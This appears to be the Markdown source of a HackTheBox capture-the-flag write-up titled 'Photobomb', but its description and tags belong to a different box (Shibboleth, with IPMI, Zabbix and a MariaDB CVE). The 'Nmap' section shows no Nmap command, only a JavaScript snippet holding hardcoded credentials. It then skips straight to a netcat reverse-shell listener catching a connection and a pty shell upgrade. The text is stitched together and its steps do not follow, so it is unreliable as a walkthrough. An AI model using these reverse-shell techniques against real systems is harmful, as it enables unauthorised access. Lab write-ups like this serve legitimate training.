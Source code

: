 ```yaml
---
layout: post
title: "HTB: PHOTOBOMB (10.10.11.182)"
description: "Shibboleth is a medium machine from HackTheBox created by knightmare & mrb3n. It starts off with a static website template. We will find a clue to look into BMC automation then find IPMI listening on UDP port 632. I will use Metasploit to leak a hash from IPMI, and crack it to get creds. This creds will allow me to log into Zabbix instance. Once in Zabbix i will use the Zabbix agent to execute commands and gain initial foothold. I will use credential reuse to pivots the next user. To get root, I’ll exploit a CVE in MariaDB / MySQL."
tags: [hackthebox, htb, linux, snmp, zabbix, command execution, access control lists, shibboleth, nmap, gobuster, ipimi-svc, mysql, password reuse, CVE-2021-27928,port 623,monitoring]
image: "/assets/img/photobomb/photobomb_feature.png"
---
```

## RECON
### Nmap

As always we start off with the recon and enumeration process to get an overview of our attack surface and target's running service.

We run NMAP with default scripts and enumerate version and save it in the directory called nmap.

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
And we get a shell on the box. While we are at it we can upgrade out shell to a better one

```sh
┌─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.182] 43228
bash: cannot set terminal process group (697): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 

wizard@photobomb:~/photobomb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌─[✗]─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $stty raw -echo;fg
nc -lvnp 9001

wizard@photobomb:~/photobomb$
```
